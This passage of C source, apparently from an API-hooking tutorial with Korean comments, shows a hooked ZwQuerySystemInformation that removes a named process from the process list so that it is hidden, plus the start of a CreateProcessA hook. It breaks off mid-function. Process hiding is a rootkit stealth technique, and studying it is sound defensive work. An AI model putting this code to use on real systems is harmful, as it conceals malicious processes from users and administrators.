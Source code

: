 ```c
		goto __NTQUERYSYSTEMINFORMATION_END;

	if( SystemInformationClass == SystemProcessInformation )
	{
		pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;

		while(TRUE)
		{
            if(pCur->Reserved2[1] != NULL)
            {
                if(!_tcsicmp((PWSTR)pCur->Reserved2[1], STR_HIDE_PROCESS_NAME))
			    {
				    if(pCur->NextEntryOffset == 0)
					    pPrev->NextEntryOffset = 0;
				    else
					    pPrev->NextEntryOffset += pCur->NextEntryOffset;
			    }
			    else		
				    pPrev = pCur;	// 원하는 프로세스를 못 찾은 경우만 pPrev 세팅
            }

			if(pCur->NextEntryOffset == 0)
				break;

			pCur = (PSYSTEM_PROCESS_INFORMATION)((ULONG)pCur + pCur->NextEntryOffset);
		}
	}

__NTQUERYSYSTEMINFORMATION_END:

	hook_by_code("ntdll.dll", "ZwQuerySystemInformation", 
                 (PROC)NewZwQuerySystemInformation, g_pOrgZwQSI);

	return status;
}

BOOL WINAPI NewCreateProcessA(
    LPCTSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
)
{
    BOOL bRet;
    FARPROC pFunc;

    // original API 호출
    pFunc = GetProcAddress(GetModuleHandleA("kernel32.dll"), "CreateProcessA");
    pFunc = (FARPROC)((DWORD)pFunc + 2);
    bRet = ((PFCREATEPROCESSA)pFunc)(lpApplicationName,
                                     lpCommandLine,
                                     lpProcessAttributes,
                                     lpThreadAttributes,
                                     bInheritHandles,
                                     dwCreationFlags,
                                     lpEnvironment,
                                     lpCurrentDirectory,
```